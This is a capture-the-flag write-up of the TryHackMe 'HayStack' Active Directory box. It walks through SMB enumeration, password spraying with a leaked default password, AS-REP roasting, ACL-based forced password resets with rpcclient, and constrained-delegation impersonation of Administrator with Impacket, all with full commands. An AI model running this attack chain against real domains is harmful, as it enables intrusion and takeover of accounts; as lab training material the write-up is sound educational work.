This box is rated hard difficulty on THM. It involves us AS-REP roasting a user's hash in order to get an initial foothold on the system. From there we abuse ACL permissions to change user passwords and land on an account that is trusted for Constrained Delegation. Finally we can impersonate the Administrator while requesting a service ticket for CIFS to gain full domain privileges.

## Host Scanning
As always, I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns the usual AD things.

```
$ sudo nmap -sCV 10.67.131.191 -oN fullscan-tcp

Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-27 01:34 -0400
Nmap scan report for 10.67.131.191
Host is up (0.042s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-27 05:35:02Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: thm.corp, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: thm.corp, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-03-27T05:35:45+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: THM
|   NetBIOS_Domain_Name: THM
|   NetBIOS_Computer_Name: HAYSTACK
|   DNS_Domain_Name: thm.corp
|   DNS_Computer_Name: HayStack.thm.corp
|   DNS_Tree_Name: thm.corp
|   Product_Version: 10.0.17763
|_  System_Time: 2026-03-27T05:35:05+00:00
| ssl-cert: Subject: commonName=HayStack.thm.corp
| Not valid before: 2026-03-26T05:09:42
|_Not valid after:  2026-09-25T05:09:42
Service Info: Host: HAYSTACK; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-03-27T05:35:08
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.99 seconds
```

Looks like a Windows machine with Active Directory components installed on it, more specifically a Domain Controller. LDAP and RDP are leaking the domain name of `HAYSTACK.THM.CORP`, which I'll add to my `/etc/hosts` file. There don't seem to be any web services up, so I will mainly focus on SMB, Kerberos, and LDAP for a foothold on the system.

### SMB Enumeration
Testing for Guest authentication over SMB shows that we have read and write permissions over the "Data" share. Inside are a few strange files which I transfer to my local machine for further inspection.

```
$ nxc smb haystack.thm.corp -u 'Guest' -p '' --shares

$ smbclient //haystack.thm.corp/data
Password for [WORKGROUP\kali]:
```



Opening these files discloses the company's default password for new employees, which makes sense as the directory we pulled them from stores the onboarding documents.



I did find a potential username for _Lily Oneill_ in one of the PDFs, however we already have SMB authentication, so I'll brute force RIDs to get a solid list of account names on the domain.

```
--Saving RID brute force output to file--
$ nxc smb haystack.thm.corp -u 'Guest' -p '' --rid-brute 2000 > users.txt

--Extracting usernames from file--
$ cat users.txt | awk -F'\\' '{print $2}' | awk '{print $1}' > validusers.txt
```



Now that we know the default password and have a list of valid users, I use Netexec to spray the domain for any accounts that are newer or forgot to change the initial password.

```
$ nxc smb haystack.thm.corp -u validusers.txt -p 'ResetMe123!' --continue-on-success
```



## AS-REP Roasting
This only gives us logons for a few accounts that fallback to using Guest authentication, which does not help us. Next, I'll test to see if any of the previously-enumerated accounts are active on the domain using [Kerbrute](https://github.com/ropnop/kerbrute).

```
$ kerbrute userenum validusers.txt --dc haystack.thm.corp -d thm.corp
```



Those results validate the existence of all the users. Now I'll check to see if any of them have the Kerberos pre-auth attribute disabled, which would let us AS-REP roast their hashes to get credentials.

If you're unfamiliar with this technique - Attackers can perform AS-REP roasting when an Active Directory account has "Do not require Kerberos pre-authentication" enabled. By sending an authentication request to the Kerberos Key Distribution Center (KDC) using only a username, the server returns an AS-REP response encrypted with the user's password-derived key. We can then capture this response and offline crack the hash to recover the account's plaintext password.

### Cracking Hashes
I use Impacket's [GetNPUsers script](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py) for this step.

```
$ impacket-GetNPUsers -dc-ip 10.67.131.191 -usersfile ../reset/validusers.txt -no-pass thm.corp/
```



That returns three `KRB5ASREP` hashes and after sending them over to JohnTheRipper or Hashcat, we recover the plaintext password for the account belonging to `TABATHA_BRITT`.



### Initial Foothold
Authenticating over SMB verifies that we have access to her account as well as the ability to RDP onto the system. 



I should note that I attempted to Kerberoast other users and got quite a few hashes back, however nothing came of them through hash-cracking. Interestingly enough, when we RDP onto the machine, we are granted some kind of temporary logon and are thrown into the `C:\Users\TEMP` directory.

## Privilege Escalation
Light enumeration of the filesystem only reveals that Rubeus.exe is already installed on the system and is located in the Public user's directory for some reason, this could be a hint at exploiting Kerberos further. Other than that, we don't have any special privileges and there aren't any scripts, hardcoded credentials, or PowerShell history files we can leverage.

The temporary session we have been given also blocks the use of tools requiring internet, meaning we can't upload WinPEAS or any other automated privilege escalation scripts. 

### Mapping AD with BloodHound
Due to our limited shell, I resort to using Bloodhound-Python to gather information in which I send over to Bloodhound, allowing us to map Active Directory. 

```
$ bloodhound-python -d thm.corp -u TABATHA_BRITT -p 'marlboro(1985)' -ns 10.67.131.191 -c all
$ sudo bloodhound
```

After letting those JSON files ingest for a moment, I start by enumerating any user privileges that we may be able to abuse for accounts we already have access to. I discover a trend of connected users through their outbound object controls which shows a clear path to an account with higher privileges.



### Exploit Chain
As it stands, Tabatha has GenericAll over `SHAWNA_BRAY`, who can forcefully change the password for `CRUZ_HALL`. Finally, they can change the password of `DARLA_WINTERS` who is trusted for Constrained Delegation.

Kerberos constrained delegation allows a service account to impersonate users to specific services in Kerberos. If an attacker compromises such an account, they can request service tickets as a privileged user (e.g., Administrator) and access resources like CIFS shares without knowing the user's password. This effectively turns a low-privileged foothold into administrative access on target systems.

The exploit chain we'll abuse is relatively simple, requiring us to continuously change account passwords until we reach Darla's account and impersonate the administrator to access the filesystem with elevated privs; Below is a simplified diagram of it:

```
[ TABATHA_BRITT ]
        │
        │ GenericAll
        ▼
[ SHAWNA_BRAY ]
        │
        │ ForceChangePassword
        ▼
[ CRUZ_HALL ]
        │
        │ ForceChangePassword
        ▼
[ DARLA_WINTERS ]
        │
        │ Trusted for Constrained Delegation
        ▼
[ Impersonate Administrator via Kerberos S4U ]
        |
        ▼
[ Access CIFS / Filesystem as Admin ]
```

### Resetting Passwords
I start by changing the password for the first three users via RPCclient. I refer to [this article](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword) for the correct commands as I prefer to handle it remotely.

```
$ rpcclient --user=TABATHA_BRITT 10.67.131.191 -W thm.corp      
Password for [THM.CORP\TABATHA_BRITT]:
rpcclient $> setuserinfo2 SHAWNA_BRAY 23 Password123!

$ rpcclient --user=SHAWNA_BRAY 10.67.131.191 -W thm.corp
Password for [THM.CORP\SHAWNA_BRAY]:
rpcclient $> setuserinfo2 CRUZ_HALL 23 Password123!

$ rpcclient --user=CRUZ_HALL 10.67.131.191 -W thm.corp
Password for [THM.CORP\CRUZ_HALL]:
rpcclient $> setuserinfo2 DARLA_WINTERS 23 Password123!
```



Quickly checking authentication with Netexec shows that this does indeed work, next up is abusing the delegation privileges to gain access to the filesystem. 

### Constrained Delegation Attack
Bloodhound's Linux Abuse info tab recommends using Impacket's [getST.py script](https://github.com/fortra/impacket/blob/master/examples/getST.py) in order to carry out this attack, which is exactly what I'll do.



We already have the account password so there's no need to supply a hash. Make sure to use the `-k` option to specify Kerberos authentication as well as our arbitrary SPN to match the CIFS.

```
$ impacket-getST -spn 'cifs/haystack.thm.corp' -impersonate 'administrator' -k 'thm.corp/DARLA_WINTERS' 
```



After we have that ticket forged, we can export it to the KRB5CCNAME variable and use it along with a tool like [wmiexec](https://github.com/fortra/impacket/blob/master/examples/wmiexec.py) to grab a shell on the system with administrative privileges.

```
$ export KRB5CCNAME=[SAVED_TICKET_NAME]
$ impacket-wmiexec thm.corp/Administrator@HAYSTACK.THM.CORP -k -no-pass
```



Grabbing both flags inside of the Administrator and Automate account's respective Desktop folders completes this challenge. Overall this box wasn't too difficult since tools like Bloodhound sniff out misconfigurations and privileges to abuse quite easily. I hope this was helpful to anyone following along or stuck and happy hacking!
